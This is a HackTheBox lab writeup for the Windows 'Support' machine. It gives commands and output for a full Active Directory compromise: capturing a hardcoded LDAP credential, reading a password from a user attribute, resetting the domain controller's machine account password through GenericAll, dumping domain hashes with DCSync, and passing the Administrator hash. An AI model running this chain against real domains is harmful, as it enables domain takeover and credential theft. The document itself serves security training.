





# Support HackTheBox Writeup

---

## Machine Information

| Field | Details |
|---|---|
| **Name** | Support |
| **OS** | Windows |
| **Difficulty** | Easy |
| **Domain** | support.htb |
| **Domain Controller** | DC (dc.support.htb) |
| **Target IP** | 10.129.230.181 |

---

## Enumeration

### Nmap

```bash
nmap -Pn $target -sCV -v -n -p- --min-rate 1000 > nmap.txt
```

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-09-23 14:50:51Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (WinRM)
49664-49703/tcp open msrpc    Microsoft Windows RPC

Host script results:
smb2-security-mode: Message signing enabled and required
clock-skew: -25s
```

### SMB Anonymous / Null Session

```bash
smbclient -N -L 10.129.230.181
```

```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share
support-tools   Disk      support staff tools
SYSVOL          Disk      Logon server share
```

Anonymous login works. The `support-tools` share is non-standard let's see what's in there:

```bash
smbclient //10.129.230.181/support-tools
```

```
smb: \> dir
  7-ZipPortable_21.07.paf.exe         A  2880728
  npp.8.4.1.portable.x64.zip          A  5439245
  putty.exe                           A  1273576
  SysinternalsSuite.zip               A 48102161
  UserInfo.exe.zip                    A   277499
  windirstat1_1_2_setup.exe           A    79171
  WiresharkPortable64_3.6.5.paf.exe   A 44398000
```

Most of these are legit sysadmin tools. But `UserInfo.exe.zip` stands out it's custom, much smaller than the others, and has a name that implies it queries user information. That smells like a custom internal tool that might have hardcoded credentials or interesting behavior.

```bash
smb: \> get UserInfo.exe.zip
```

---

## UserInfo.exe Static Analysis & Dynamic Behavior

### What is it?

```bash
file UserInfo.exe
# UserInfo.exe: PE32 executable for MS Windows 6.00 (console), Intel i386 Mono/.Net assembly
```

It's a .NET assembly. That means we can run it directly with `mono` on Linux, and we could also decompile it with tools like dnSpy or ILSpy. For now, let's first observe its behavior:

```bash
TERM=vt100 mono -O=all UserInfo.exe --help
```

```
Usage: UserInfo.exe [options] [commands]
Options:
  -v|--verbose        Verbose output
Commands:
  find                Find a user
  user                Get information about a user
```

```bash
TERM=vt100 mono -O=all UserInfo.exe user -username support
# [-] Exception: No Such Object

TERM=vt100 mono -O=all UserInfo.exe find -first admin
# [-] Exception: No Such Object
```

The "No Such Object" error is the most important clue here. That's not a generic error message that's an LDAP error code. It's telling us that this tool is making LDAP queries to Active Directory, and the LDAP server is responding that the object doesn't exist (because `support` and `admin` aren't matching against whatever query it's running, not because LDAP auth failed).

### Wireshark Catching the LDAP Traffic

If it's talking to LDAP, the traffic must be going out somewhere. Since we're running this from our attacker machine connected via VPN (tun0), any traffic it generates has to pass through our interface. LDAP on port 389 is unencrypted plaintext if it's sending credentials, we'll see them.

Started Wireshark capturing on `tun0` before running UserInfo.exe again:





From the capture, we can see the full credential embedded in the `bindRequest`:

```
support\ldap : nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

The application is authenticating to LDAP as `ldap@support.htb` using a hardcoded password. Because LDAP port 389 transmits data in plaintext (no TLS), this is trivially captured.

---

## Initial Foothold

### Testing the Captured Credential

First, let's figure out exactly whose credential this is and what it can do:

```bash
nxc smb $target -u 'support' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
# [-] support.htb\support:nvEfEK16^... STATUS_LOGON_FAILURE
```

```bash
nxc ldap $target -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
# [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

So the credential belongs to a user called `ldap`, not `support`. The username in the LDAP bind was `support\ldap` the `support` part is the domain, `ldap` is the username. Trying it as SMB under the `support` username doesn't work, but the `ldap` domain account authenticates to LDAP just fine.

### LDAP Enumeration → Password in the `info` Field

With valid LDAP credentials, we can now query the directory. The most interesting target is the `support` user it's the primary account name of this box, so let's see what's there:

```bash
ldapsearch -x -H ldap://10.129.230.181 \
  -D "ldap@support.htb" \
  -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' \
  -b "DC=support,DC=htb" \
  "(samAccountName=support)"
```

```
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
...
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
...
sAMAccountName: support
```



The `info` field on an AD user object is just a freetext notes field and someone stored a password there in plain text. `Ironside47pleasure40Watchful`. Combined with the fact that `support` is also a member of `Remote Management Users` (which grants WinRM access), this is our foothold.

### WinRM as support

```bash
nxc winrm $target -u "support" -p "Ironside47pleasure40Watchful"
# [+] support.htb\support:Ironside47pleasure40Watchful (Pwn3d!)

evil-winrm -i $target -u support -p "Ironside47pleasure40Watchful"
```

```
Evil-WinRM shell v3.9
*Evil-WinRM* PS C:\Users\support\Documents> whoami
support\support
```

```powershell
*Evil-WinRM* PS C:\Users\support\Desktop> type user.txt
b62dab72bccbc7aa4REDACTED779b58
```

User flag captured.

---

## Privilege Escalation

### Privilege Check

```powershell
whoami /priv | findstr Enabled
```

```
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

`SeMachineAccountPrivilege` stands out. This allows domain users to create new computer/machine accounts in the domain (up to 10 by default, controlled by `ms-DS-MachineAccountQuota`). That's a building block for certain attacks, but on its own it doesn't immediately give us escalation. Let's look at what BloodHound says.

### BloodHound Analysis

```bash
bloodyad -d support.htb -u 'support' -p "Ironside47pleasure40Watchful" \
  --host "$target" get bloodhound
```

After loading the data into BloodHound:



The graph reveals the attack path:

1. `support` is a member of **Shared Support Accounts**
2. **Shared Support Accounts** has **GenericAll** on **DC$** (the domain controller computer account)
3. **GenericAll** = full control over that object

Confirmed via ldapsearch:
```bash
ldapsearch -x -H ldap://10.129.230.181 \
  -D "ldap@support.htb" -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' \
  -b "DC=support,DC=htb" "(samAccountName=support)" | grep -i shared
# memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
```

And from BloodHound, the DC$'s privileges over the domain become clear:



The complete chain:
```
support → [MemberOf] → Shared Support Accounts
  → [GenericAll] → DC$
    → [MemberOf] → Domain Controllers
      → [GetChangesAll] → SUPPORT.HTB domain (DCSync!)
```

**GenericAll on DC$** means we can do anything to that computer account including resetting its password. And the machine account `DC$` is a member of the Domain Controllers group, which has `GetChangesAll` rights on the domain that's the DCSync privilege.

### Failed Attempts RBCD Route

Before landing on the correct approach, there were several failed attempts trying to set up Resource-Based Constrained Delegation (RBCD):

```bash
# Failed - SMB method
impacket-addcomputer support.htb/support:'Ironside47pleasure40Watchful'@10.129.230.181 \
  -computer-name 'wakamiya$' -computer-pass 'longlive123'
# SMB SessionError: STATUS_LOGON_FAILURE / STATUS_INVALID_PARAMETER

# Failed - LDAPS method
impacket-addcomputer support.htb/support:'Ironside47pleasure40Watchful'@10.129.230.181 \
  -method LDAPS -computer-name 'wakamiya' -computer-pass 'longlive123' -dc-ip 10.129.230.181
# socket ssl wrapping error: Connection reset by peer

# Worked - via bloodyad
bloodyad -d support.htb -u 'support' -p "Ironside47pleasure40Watchful" \
  --host "$target" add computer wakamiya 'longlive123'
# [+] wakamiya$ created
```

With the computer account created, RBCD attempts then started:

```bash
# All of these failed with NoResultError - couldn't resolve the computer account
bloodyad ... add rbcd wakamiya$ DC$
bloodyad ... add rbcd wakamiya DC$
bloodyad ... add rbcd "CN=wakamiya,CN=Computers,DC=support,DC=htb" "CN=DC,OU=Domain Controllers,DC=support,DC=htb"
impacket-rbcd -delegate-to 'wakamiya' -delegate-from 'support' -dc-host 'DC' -action 'write' ...
```

All of these hit `NoResultError` bloodyad couldn't resolve the `wakamiya$` computer object by sAMAccountName. This rabbit hole ate some time.

for now i don't need RBCD at all. With **GenericAll on DC$**, i have a much more direct path we can simply **reset DC$'s own password**. No RBCD, no S4U2Self, no complexity. Just change the machine account password and authenticate as DC$ directly.

### Exploiting GenericAll Reset DC$'s Password

`impacket-addcomputer` with the `-no-add` flag doesn't create a new account it resets the password of an existing one. With GenericAll, `support` has permission to do exactly that to DC$:

```bash
impacket-addcomputer \
  -no-add \
  -computer-name 'DC$' \
  -computer-pass 'Password123@' \
  -dc-ip $target \
  'support.htb/support:Ironside47pleasure40Watchful'
```

```
[*] Successfully set password of DC$ to Password123@.
```

DC$'s machine account password is now `Password123@`. Since DC$ is a member of Domain Controllers, which has `GetChangesAll` on the domain, we can now run DCSync directly as DC$:

```bash
impacket-secretsdump 'support.htb/DC$:Password123@@10.129.230.181'
```

```
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets

Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb06cbc02b39abeddd1335bc30b19e26:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:6303be52e22950b5bcb764ff2b233302:::
ldap:1104:aad3b435b51404eeaad3b435b51404ee:b735f8c7172b49ca2b956b8015eb2ebe:::
support:1105:aad3b435b51404eeaad3b435b51404ee:11fbaef07d83e3f6cde9f0ff98a3af3d:::
smith.rosario:1106:aad3b435b51404eeaad3b435b51404ee:0fab66daddc6ba42a3b0963123350706:::
hernandez.stanley:1107:aad3b435b51404eeaad3b435b51404ee:0fab66daddc6ba42a3b0963123350706:::
wilson.shelby:1108:aad3b435b51404eeaad3b435b51404ee:0fab66daddc6ba42a3b0963123350706:::
...
DC$:1000:aad3b435b51404eeaad3b435b51404ee:cc8147f790c91200a3e02c2ebc65f9fb:::

[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:f5301f54fad85ba357fb859c94c5c31a6abe61f6db1986c03574bfd6c2e31632
...
```

now we have the Administrator's NT hash: `bb06cbc02b39abeddd1335bc30b19e26`.

---

## Root

```bash
evil-winrm -i 10.129.230.181 -u 'Administrator' -H 'bb06cbc02b39abeddd1335bc30b19e26'
```

```
Evil-WinRM shell v3.9
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
177d6c96e987660REDACTED437adc5b
```

Domain compromised.

---

## Lessons Learned

**Never trust unencrypted protocols for authentication.** The entire initial access chain here exists because UserInfo.exe authenticates to LDAP on port 389 (plaintext). The credentials are sent over the wire in clear text and trivially captured by anyone on the network path or, in this case, via Wireshark on the attacker's own VPN interface. LDAP authentication should always go over LDAPS (port 636) or StartTLS.

**Don't store passwords in AD user attribute fields.** The `info` field on an AD user object is readable by any authenticated domain user. Whoever set `Ironside47pleasure40Watchful` there as the support user's password created an immediate lateral movement path for anyone who could authenticate to LDAP which in this case we got for free from the binary.

**GenericAll is full ownership including password resets.** A common misconception is that GenericAll abuse requires complex techniques like Shadow Credentials or ACL-based Kerberos attacks. On a computer object, the most direct abuse is simply resetting the machine account password. If you have GenericAll on a computer that's in Domain Controllers, you can reset its password and DCSync. No RBCD needed.

**The "No Such Object" LDAP error is a meaningful signal.** In UserInfo.exe, this error message actually tells us a lot: LDAP authentication succeeded (otherwise we'd see an auth error), and the search executed (otherwise we'd see a connection error). It's specifically the query returning no matching objects. That observation led directly to capturing the traffic.

**Watch for dead ends and pivot early.** The RBCD route (bloodyad, impacket-rbcd) failed multiple times with `NoResultError`. Rather than keep forcing a broken path, stepping back and asking "what does GenericAll actually allow beyond delegation?" revealed the simpler password reset approach in minutes.

---

## Tools & References

| Tool | Purpose |
|---|---|
| **nmap** | Port scanning & service enumeration |
| **smbclient** | Anonymous SMB share listing and file download |
| **mono** | Running .NET assembly (UserInfo.exe) on Linux |
| **Wireshark** | Capturing LDAP traffic on tun0 to extract hardcoded credentials |
| **nxc (NetExec)** | SMB/LDAP/WinRM credential validation |
| **ldapsearch** | LDAP enumeration with captured credentials |
| **bloodyad** | AD enumeration, BloodHound data collection |
| **evil-winrm** | WinRM shell with password and pass-the-hash |
| **impacket-addcomputer** | Create computer accounts + reset DC$ password (-no-add) |
| **impacket-secretsdump** | DCSync to dump all domain hashes via DC$ credentials |

**References:**
- [GenericAll on Computer Objects abuse techniques](https://www.thehacker.recipes/ad/movement/dacl/genericall)
- [DCSync attack Impacket](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync)
- [bloodyAD](https://github.com/CravateRouge/bloodyAD)
